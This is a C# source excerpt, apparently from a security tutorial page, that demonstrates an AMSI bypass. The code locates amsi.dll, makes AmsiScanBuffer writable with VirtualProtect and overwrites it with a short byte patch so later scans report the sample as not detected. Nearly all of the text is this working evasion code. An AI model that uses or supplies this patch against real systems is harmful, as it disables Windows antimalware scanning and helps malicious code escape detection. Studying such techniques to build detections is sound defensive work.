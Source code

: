 ```csharp
                if (module.ModuleName.Equals("amsi.dll"))
                {
                    hAmsi = module.BaseAddress;
                    break;
                }
            }

            var asb = GetProcAddress(hAmsi, "AmsiScanBuffer");

            var patch = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };

            // Make region writable (0x40 == PAGE_EXECUTE_READWRITE)
            VirtualProtect(asb, (UIntPtr)patch.Length, 0x40, out uint oldProtect);

            // Copy patch into asb region
            Marshal.Copy(patch, 0, asb, patch.Length);

            // Restore asb memory permissions
            VirtualProtect(asb, (UIntPtr)patch.Length, oldProtect, out uint _);

            // Scan same sample again
            amsiResult = ScanBuffer(sample); Console.WriteLine($"After patch: {amsiResult}");
        }

        static string ScanBuffer(byte[] sample)
        {
            var result = AmsiScanBuffer( _amsiContext, sample, (uint)sample.Length, "Demo Sample", ref _amsiSession, out uint amsiResult);
            return amsiResult >= 32768 ? "AMSI_RESULT_DETECTED" : "AMSI_RESULT_NOT_DETECTED";
        }

        [DllImport("kernel32.dll")]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("amsi.dll")]
        static extern uint AmsiInitialize(string appName, out IntPtr amsiContext);

        [DllImport("amsi.dll")]
        static extern uint AmsiOpenSession(IntPtr amsiContext, out IntPtr amsiSession);

        // The antimalware provider may return a result between 1 and 32767, inclusive, as an estimated risk level.
        // The larger the result, the riskier it is to continue with the content.
        // Any return result equal to or larger than 32768 is considered malware, and the content should be blocked.
        [DllImport("amsi.dll")]
        static extern uint AmsiScanBuffer(IntPtr amsiContext, byte[] buffer, uint length, string contentName, ref IntPtr amsiSession, out uint scanResult);
    }
}
```
{% endcode %}
